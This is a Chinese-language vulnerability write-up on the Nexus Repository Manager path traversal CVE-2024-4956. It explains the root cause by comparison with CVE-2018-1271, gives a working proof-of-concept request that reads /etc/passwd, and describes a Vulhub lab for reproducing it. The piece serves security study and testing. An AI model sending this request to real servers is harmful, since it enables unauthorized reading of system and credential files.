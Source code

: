 说一下Nexus的目录穿越漏洞CVE-2024-4956。看到这个漏洞，我其实先想到@Orange 当时发现的SpringMVC [CVE-2018-1271](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)。

CVE-2018-1271漏洞中，cleanPath()函数在处理路径的时候将空的字符串也认为是一个目录，这样 ///../../../ 会被认为是正常的路径，但实际上会穿越出当前目录：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-425a3b11f0aae61ceb03a11e5dec5a6d18630b90.png)

与CVE-2018-1271类似，Nexus使用的Jetty的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生。

最后的POC如下：

```php
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

我这里用了7个%2F，所以后面可以有7次..%2F，成功读取到文件：

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-0682c2fc6fa5925ec9efa8e5b0189fe1f81629bb.png)

我这个POC和网上流传的POC不太一样，但我觉得我这个POC会让你更好理解这个漏洞的核心原理。

漏洞环境
----

下载Vulhub中对应漏洞的环境：<https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2024-4956>

执行如下命令启动一个Nexus Repository Manager version 3.68.0 版本服务器：

```php
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到Nexus的默认页面。

发送如下请求来复现漏洞：

```php
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0

```